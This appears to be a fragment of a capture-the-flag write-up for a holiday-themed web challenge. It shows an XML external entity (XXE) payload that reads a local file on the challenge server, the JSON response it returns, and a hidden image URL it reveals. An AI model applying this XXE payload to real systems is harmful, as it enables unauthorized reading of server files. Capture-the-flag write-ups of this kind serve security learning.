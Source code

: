 `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/silverring.txt"> ]>`

![f892313f41179545ab50337128b11ccd.png](../../_resources/f892313f41179545ab50337128b11ccd.png)

```
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

Yet another URL to visit [https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-supersupersecret928164.png](https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-supersupersecret928164.png)

